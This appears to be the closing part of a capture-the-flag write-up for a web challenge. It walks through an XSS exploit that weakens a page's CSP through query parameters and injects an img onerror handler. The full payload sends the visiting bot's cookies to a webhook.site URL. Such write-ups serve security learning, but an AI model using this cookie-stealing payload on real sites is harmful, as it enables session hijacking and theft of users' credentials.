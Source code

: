 - and we got a call back in the webhook , and here is our payload in the page source

![image](/assets/images/CTFs/extra-safe-security-layers/20230604231130.png)

#### Exploiting 

- The Final Payload will do the following :
	- set text parameter so we get under the merging condition 
	- set CSP Value so we do not get the restrict default one
	- injecting onerror event in the img src tag which will be added via innerhtml 
	- onerror which will be triggered due to the invalid source will send a request to our hook along with the cookies
	- the bot will parse all these parameters and visit the application with them along with the cookies (flag cookie)

```
http://xssl.web.jctf.pro/?text=a&unmodifiable[CSP]=img-src 'self' https://webhook.site/xxxxxxxxx;&unmodifiable[background]=x' onerror="navigator.sendBeacon('https://webhook.site/xxxxxxxxx/?cookie='+encodeURIComponent(document.cookie));"
```

![image](/assets/images/CTFs/extra-safe-security-layers/20230604232032.png)


![image](/assets/images/CTFs/extra-safe-security-layers/20230604231749.png)